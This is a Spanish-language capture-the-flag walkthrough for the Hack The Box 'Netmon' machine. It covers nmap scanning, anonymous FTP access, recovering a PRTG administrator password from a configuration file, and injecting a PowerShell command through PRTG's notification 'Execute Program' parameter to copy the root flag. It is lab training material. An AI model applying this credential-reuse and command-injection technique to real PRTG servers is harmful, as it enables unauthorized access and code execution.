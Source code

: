 ## HTB-Netmon
- Maquina: Windows
- Level: Easy
- IP: 10.10.10.152

## Herramientas a utilizar:

- nmap
- 

```
nmap -sC -sV -o scan_netmon.txt 10.10.10.152
```
|PORT|STATE SERVICE|
|---|---|
|21/tcp|    open  ftp
|135/tcp|   open  msrpc
|139/tcp|   open  netbios-ssn
|445/tcp|   open  microsoft-ds

Veremo que el puerto 21 FTP esta abierto y empesaremos por en el.
```
ftp 10.10.10.152
user: anonymous
pass: anonymous
```

Ahora solo debemos enumerar 
```
cd Users\Public
```
Veremos nuestra primera flag user.txt la cual descargare.
```
get user.txt
```


Ahora para encontrar la flag del root, debemos probar el puerto 80
```
http://10.10.10.152
```
Tenemos web que nos pide usuario y pass. por lo que seguiremos enumerando
Volvemos otra vez utilizaremos el ftp y al ir a la siguiente ruta
```
ftp 10.10.10.152
user: anonymous
pass: anonymous
cd /programdata
cd Paessler\PRTG Network Monitor” 
```

Aqui descargaremos el archivo `PRTG Configuration.dat` .
```
get PRTG Configuration.dat
```

Abriremos el archivo `PRTG Configuration.dat` entre todo lo que contiene la siguiente linea es lo que nos debe llamar a la atencion: `<!– User: prtgadmin –> PrTg@dmin2018.”` 

Luego solo debemos probar el users/pass

>Probé esta contraseña con el usuario prtgadmin en la página de inicio de sesión, pero no funcionó.
Despues de probar todas las posible convinaciones del passwors logre acceder cambiando el año **PrTg@dmin2018** por **PrTg@dmin`2019`**

Ahora existen varios metodos para extrer la root, Pero como es constumbre HTB de poner la Flag en el Desktop del Adminsitrador. `"C:\Users\Administrator\Desktop\root.txt`

Haremos lo siguiente para extraer nuestra Flag.
1. Click **Setup.**
2. Click “Notifications” in **Account Settings.**
3. Click **Add new notification.**
4. Habilitar **Execute Program.**
5. Select **Demo exe notification - outfile.ps1” as the “Program File.**
6. Enter `test.txt`; `Copy-item "C:/Users/Administrator/Desktop/root.txt"` -Destination `"C:/Users/Public/root.txt"` as the **Parameter.**
7. Then, switch **Notification Summarization** to **Always notify ASAP, never summarize.**
8. **Save** the notification.
9. Click **Send test notification.**

Ahora solo debemos volver por el ftp he ir a la siguiente ruta
```
ftp 10.10.10.152
cd /programdata
cd Users\Public
```

Aqui encontraremos nuestra Flag de root.txt 
